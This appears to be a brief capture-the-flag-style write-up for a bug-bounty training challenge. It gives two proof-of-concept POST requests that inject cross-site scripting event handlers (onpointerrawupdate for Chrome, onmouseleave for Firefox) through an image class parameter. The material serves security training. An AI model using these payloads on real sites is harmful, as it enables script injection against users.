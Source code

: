 # Change the class of our image and pick your favourite!

## target: https://www.bugbountytraining.com/challenges/challenge-2.php


## Poc
### work with Chrome
```
POST /challenges/challenge-2.php HTTP/1.1

imageClass=img1"onpointerrawupdate='alert(document.domain)'">
```
### work with Firefox
```
POST /challenges/challenge-2.php HTTP/1.1

imageClass=img1"onmouseleave='alert(document.domain)'">
```
<img width="1169" height="595" alt="image" src="https://github.com/user-attachments/assets/dccb6507-9b30-479d-92eb-4c6552bb41b7" />
